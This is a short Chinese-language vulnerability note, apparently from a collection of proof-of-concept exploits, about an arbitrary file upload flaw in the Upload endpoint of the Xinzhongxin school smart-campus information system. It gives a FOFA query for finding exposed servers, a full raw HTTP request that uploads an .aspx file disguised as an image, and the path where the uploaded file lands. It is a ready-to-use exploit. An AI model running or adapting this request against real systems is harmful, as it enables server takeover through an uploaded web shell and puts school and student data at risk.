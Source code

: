 ## 新中新中小学智慧校园信息管理系统Upload接口存在任意文件上传漏洞

新中新中小学智慧校园信息管理系统PSE存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

## fofa

```yaml
body="/Login/IndexMobi"
```

![image-20240712202008295](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407122020397.png)

## poc

```yaml
POST /PSE/Upload HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 149
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="test.aspx"
Content-Type: image/jpg

123
--00content0boundary00--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407122020837.png)

文件路径

`/Upload/PrimarySchoolEnrollment/70895ada-146e-4c52-a377-af0fb7b05d57.aspx`